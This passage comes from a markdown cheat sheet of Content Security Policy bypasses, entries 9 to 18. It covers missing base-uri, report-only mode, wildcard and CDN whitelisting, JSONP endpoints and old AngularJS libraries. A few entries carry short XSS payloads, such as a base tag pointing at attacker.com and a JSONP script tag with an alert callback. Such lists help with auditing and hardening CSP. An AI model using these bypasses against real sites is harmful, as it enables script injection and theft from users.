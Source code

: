 ### 9. Missing base-uri
**Bypass:** `<base href="attacker.com/">` followed by relative script paths
**Explanation:** Base URL can be changed to load all relative resources from attacker domain.

### 10. report-uri only (no enforcement)
**Bypass:** Any XSS works; CSP only reports violations without blocking
**Explanation:** Using report-only mode doesn't actually block attacks, only logs them.

---

## SECTION 2: WILDCARD & DOMAIN BYPASSES (11-25)

### 11. Wildcard domain (*.example.com)
**Bypass:** Exploit subdomain under attacker control (attacker.example.com)
**Explanation:** Subdomains may not be as trusted as main domain; attacker can take over or exploit subdomain takeover.

### 12. Overly broad CDN whitelisting (*.cloudfront.net)
**Bypass:** Upload file to any CloudFront distribution or exploit open S3 bucket
**Explanation:** Trusting entire CDN provider allows attacker to use any distribution for payload delivery.

### 13. JSONP endpoint on whitelisted domain
**Bypass:** `<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1)"></script>`
**Explanation:** JSONP endpoints execute attacker-controlled code wrapped in function calls on the whitelisted domain.

### 14. User-controlled subdomain
**Bypass:** Attacker registers or takes over subdomain (user.attacker.example.com)
**Explanation:** If CSP whitelists user.*.example.com, attacker can control one subdomain to serve scripts.

### 15. Publicly accessible CDN bucket
**Bypass:** Upload JavaScript to public AWS S3 / Google Cloud Storage bucket listed in CSP
**Explanation:** If write permissions aren't properly restricted, attacker uploads malicious script directly.

### 16. GitHub Pages subdomain (*.github.io)
**Bypass:** Create GitHub Pages site on attacker GitHub account; CSP allows it
**Explanation:** Many organizations whitelist GitHub Pages; attacker creates malicious page there.

### 17. Heroku app domain (*.herokuapp.com)
**Bypass:** Deploy attacker app on free Heroku account with CSP-whitelisted domain
**Explanation:** Free hosting platforms with wildcard patterns enable easy exploitation.

### 18. Google APIs endpoint with old libraries
**Bypass:** Load AngularJS < 1.6.0 from https://ajax.googleapis.com/ajax/libs/angularjs/1.5.0/angular.js
**Explanation:** Vulnerable library versions on whitelisted CDN can be exploited for sandbox escapes.

